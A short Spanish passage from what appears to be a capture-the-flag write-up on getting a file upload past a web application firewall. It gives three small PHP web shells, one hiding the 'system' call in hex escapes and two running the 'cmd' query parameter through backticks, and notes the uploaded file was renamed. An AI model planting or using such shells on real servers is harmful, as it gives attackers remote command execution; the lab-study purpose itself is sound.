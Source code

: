 En este caso lo que podemos hacer para eludir el **WAF**, es usar algunos de estos dos **cmd.php** los cuales nos permiten **bypassear** la comprobación realizada por el **WAF**.

```php
<?php
	"\x73\x79\x73\x74\x65\x6d"($_GET['cmd']);
?>
```

```php
<?php
	$c=$_GET['cmd'];
	echo `$c`;
?>
```

```php
<?= `$_GET[0]`; ?>
```

Observamos que cuando conseguimos **bypasear** el **WAF** nuestro archivo se ha subido con un nombre diferente.

![Pasted image 20240902225359.png](<../assets/images/posts/2024-10-20-imf/Pasted image 20240902225359.png>)

